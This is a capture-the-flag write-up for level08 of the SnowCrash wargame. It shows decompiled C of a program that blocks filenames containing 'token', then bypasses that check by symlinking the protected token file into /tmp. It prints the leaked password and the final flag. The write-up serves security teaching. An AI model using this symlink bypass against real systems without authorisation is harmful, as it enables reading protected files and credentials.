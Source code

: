 ## Level08

Again, a `level08` exe and a `token` file without permission in it.

As we can see in the [level08_decomp.c](./level08_decomp.c) there are several checks for the args you pass to the program:

```c
int main()
{
	local_14 = *(int *)(in_GS_OFFSET + 0x14);
	if (argc == 1) {
		printf("%s [file to read]\n",*in_stack_00000008);
						// WARNING: Subroutine does not return
		exit(1);
	}
	pcVar1 = strstr((char *)in_stack_00000008[1],"token");
	if (pcVar1 != (char *)0x0) {
		printf("You may not access \'%s\'\n",in_stack_00000008[1]);
						// WARNING: Subroutine does not return
		exit(1);
	}
	__fd = open((char *)in_stack_00000008[1],0);
	if (__fd == -1) {
		err(1,"Unable to open %s",in_stack_00000008[1]);
	}
	__n = read(__fd,local_414,0x400);
	if (__n == 0xffffffff) {
		err(1,"Unable to read fd %d",__fd);
	}
	sVar2 = write(1,local_414,__n);
	if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
						// WARNING: Subroutine does not return
		__stack_chk_fail();
	}
	return sVar2;
}
```

We can pass the first test by giving it any argument, the second one indicates that giving `token` as an arguments exits and the other ones are just checks for the read and write calls.

So our objective is to somehow read the `token` file.

## Exploit

We can do so by creating a symlink to `token` and pass it to the program:

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/tt4
level08@SnowCrash:~$ ./level08 /tmp/tt4
quif5eloekouj29ke0vouxean
```

We can then su to the flag and get it:

```bash
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## Token

25749xKZ8L7DkSCwJkT9dyv6f